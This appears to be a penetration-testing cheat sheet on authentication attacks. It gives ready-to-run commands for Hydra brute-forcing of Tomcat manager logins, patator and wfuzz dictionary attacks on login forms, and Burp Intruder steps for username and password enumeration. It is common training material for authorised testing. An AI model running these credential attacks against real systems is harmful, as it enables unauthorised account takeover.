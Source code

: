 # Authentication Attacks

## Authentication Attacks



### HTTP Basic Authentication

HTTP Basic Authentication with Hydra:

```text
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.10:8080/manager/html
```

### Login Forms

### Enumerating Usernames via Error Messages

We can enumerate usernames with error messages.

`Invalid User`

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack)
```

Load the dictionary with:

```text
Intruder -> Payloads -> Payload Options -> Load
```

Match the string 'Invalid User' from the HTTP response:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> Invalid User
```

Follow redirections on the target only:

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can view the help panel with:

```text
patator http_fuzz --help
```

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='Invalid User'
```

**wfuzz**

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
wfuzz -c -w names.txt -d "username=FUZZ&password=password" http://10.10.10.10/login.php
```

### Enumerating Usernames via Cookie Values

We can enumerate usernames with cookie values.

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack) Intruder -> Payloads -> Payload Options -> Load
```

Match the response string of an invalid user cookie parameter:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> wrong_user
```

Follow redirections on the target only

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can do a username enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt --x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='wrong_user'
```

### Password Enumeration

#### patator

We can do a password enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=admin&password=FILE0&Submit=Login' 0=passwords.txt --x ignore:fgrep='Invalid Password'
```



